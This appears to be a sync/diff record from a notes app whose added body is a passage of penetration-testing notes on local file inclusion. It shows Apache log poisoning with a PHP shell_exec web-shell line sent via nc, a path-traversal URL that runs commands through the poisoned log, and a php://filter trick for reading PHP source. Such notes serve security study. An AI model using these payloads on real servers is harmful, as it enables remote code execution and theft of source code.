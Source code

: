 id: 25a155d6e25643a8b38321f077231846
parent_id: 180adbb644b74e58b878bef13fa359fc
item_type: 1
item_id: 1094d9f035074e3a8ef344a61a88cf5e
item_updated_time: 1643129183504
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"\\\\\\\\access.log\"],[1,\"; On Linux, /var/log/apache2/access.log\\\n\\\n> nc 192.168.1.102 80\\\n> \\\n> &lt;?php echo 'pre&gt;' . shell\\\\_exec($\\\\_GET\\\\['cmd'\\\\]\\\n> \\\n> \\\\# To access log\\\n\\\nAfter writing to the log file, run the file\\\n\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\\\n\\\n# Bypassing php-execution\\\n\\\nSo if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.\\\n\\\n> http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index \\\n\\\nHere you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:\\\n\\\n> base64 -d savefile.php\"]],\"start1\":2952,\"start2\":2952,\"length1\":12,\"length2\":853}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-25T16:46:23.931Z
created_time: 2022-01-25T16:46:23.931Z
type_: 13